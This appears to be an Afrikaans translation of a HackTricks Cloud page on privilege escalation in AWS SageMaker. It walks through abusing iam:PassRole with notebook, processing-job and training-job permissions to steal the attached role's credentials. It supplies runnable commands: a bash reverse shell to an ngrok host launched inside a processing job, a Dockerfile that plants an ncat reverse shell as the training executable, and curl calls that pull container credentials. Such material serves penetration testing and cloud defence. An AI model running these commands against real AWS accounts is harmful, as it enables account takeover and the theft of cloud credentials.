 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Begin met die skep van 'n notaboek met die IAM Rol daaraan geheg om toegang te verkry:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die antwoord moet 'n `NotebookInstanceArn` veld bevat, wat die ARN van die nuut geskepte notaboek instansie sal bevat. Ons kan dan die `create-presigned-notebook-instance-url` API gebruik om 'n URL te genereer wat ons kan gebruik om die notaboek instansie te benader sodra dit gereed is:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigeer na die URL met die webblaaier en klik op \`Open JupyterLab\` in die boonste regterhoek, skrol dan af na die "Launcher" oortjie en onder die "Ander" afdeling, klik op die "Terminal" knoppie.

Nou is dit moontlik om toegang te verkry tot die metadata-gedragskode van die IAM Rol.

**Potensiële Impak:** Privesc na die sagemaker-diensrol gespesifiseer.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

As daar reeds Jupyter **notaboek is wat daarop loop** en jy kan hulle lys met `sagemaker:ListNotebookInstances` (of ontdek hulle op enige ander manier). Jy kan **'n URL vir hulle genereer, toegang tot hulle verkry, en die geloofsbriewe steel soos aangedui in die vorige tegniek**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potensiële Impak:** Privesc na die sagemaker-diensrol wat aangeheg is.

### `sagemaker:CreateProcessingJob,iam:PassRole`

'n Aanvaller met daardie regte kan **sagemaker dwing om 'n verwerkingswerk uit te voer** met 'n sagemaker rol daaraan geheg. Die aanvaller kan die definisie van die houer aandui wat in 'n **AWS bestuurde ECS-rekenaarinstansie** uitgevoer sal word, en **die geloofsbriewe van die IAM-rol wat aangeheg is, steel**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potensiële Impak:** Privesc na die sagemaker-diensrol gespesifiseer.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

'n Aanvaller met daardie regte sal in staat wees om 'n opleidingswerk te skep, **wat 'n willekeurige houer laat loop** met 'n **rol daaraan geheg**. Daarom sal die aanvaller in staat wees om die geloofsbriewe van die rol te steel.

{% hint style="warning" %}
Hierdie scenario is moeiliker om uit te buit as die vorige een omdat jy 'n Docker-beeld moet genereer wat die rev shell of geloofsbriewe direk na die aanvaller sal stuur (jy kan nie 'n beginopdrag aandui in die konfigurasie van die opleidingswerk nie).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% eindehint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potensiële Impak:** Privesc na die sagemaker-diensrol gespesifiseer.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

'n Aanvaller met daardie regte sal (potensieel) in staat wees om 'n **hiperparametersopleidingswerk** te skep, **'n willekeurige houer daarop te hardloop** met 'n **rol daaraan geheg**.\
_Ek het nie geëxploiteer weens 'n gebrek aan tyd nie, maar dit lyk soortgelyk aan die vorige aanvalle, voel vry om 'n PR met die uitbuitingsbesonderhede te stuur._

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
